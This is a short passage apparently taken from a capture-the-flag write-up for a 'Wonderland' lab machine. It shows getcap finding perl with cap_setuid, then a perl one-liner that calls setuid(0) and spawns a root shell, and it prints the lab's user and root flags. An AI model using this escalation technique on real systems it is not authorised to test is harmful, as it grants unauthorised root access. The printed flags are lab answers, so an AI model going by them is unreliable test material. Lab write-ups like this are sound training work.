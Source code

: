 ```shell
hatter@wonderland:~$ getcap -r / 2>/dev/null
/usr/bin/perl5.26.1 = cap_setuid+ep
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/bin/perl = cap_setuid+ep
hatter@wonderland:~$ perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";'
# whoami
root
```

## root

```shell
# cd alice
# cat root.txt  
thm{Twinkle, twinkle, little bat! How I wonder what you’re at!}
# cat /root/user.txt
thm{"Curiouser and curiouser!"}
```